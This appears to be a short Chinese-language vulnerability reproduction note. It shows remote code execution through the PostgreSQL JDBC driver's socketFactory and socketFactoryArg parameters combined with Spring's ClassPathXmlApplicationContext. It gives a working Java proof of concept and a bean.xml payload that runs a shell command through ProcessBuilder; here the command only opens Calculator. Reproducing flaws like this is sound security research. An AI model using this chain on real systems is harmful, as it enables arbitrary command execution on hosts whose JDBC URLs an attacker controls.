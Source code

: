 ```
<!-- https://mvnrepository.com/artifact/org.postgresql/postgresql -->
<dependency>
    <groupId>org.postgresql</groupId>
    <artifactId>postgresql</artifactId>
    <version>42.3.1</version>
</dependency>
<!-- https://mvnrepository.com/artifact/org.springframework/spring-context-support -->
<dependency>
    <groupId>org.springframework</groupId>
    <artifactId>spring-context-support</artifactId>
    <version>5.3.23</version>
</dependency>
```

## 漏洞复现

### 任意代码执行 socketFactory/socketFactoryArg

```
package com.example.testspring;

import java.sql.Connection;
import java.sql.DriverManager;
import java.sql.SQLException;

public class PostGreSqlTest {
    public static void main(String[] args) throws SQLException {
        String socketFactoryClass = "org.springframework.context.support.ClassPathXmlApplicationContext";
        String socketFactoryArg = "http://127.0.0.1:8088/bean.xml";
        String jdbcUrl = "jdbc:postgresql://127.0.0.1:5432/test/?socketFactory="+socketFactoryClass+ "&socketFactoryArg="+socketFactoryArg;
        Connection connection = DriverManager.getConnection(jdbcUrl);
    }
}
```

bean.xml

```
<beans xmlns="http://www.springframework.org/schema/beans"
       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
       xmlns:p="http://www.springframework.org/schema/p"
       xsi:schemaLocation="http://www.springframework.org/schema/beans
        http://www.springframework.org/schema/beans/spring-beans.xsd">
<!--    普通方式创建类-->
   <bean id="exec" class="java.lang.ProcessBuilder" init-method="start">
        <constructor-arg>
          <list>
            <value>bash</value>
            <value>-c</value>
            <value>open -a Calculator</value>
          </list>
        </constructor-arg>
    </bean>
</beans>
```

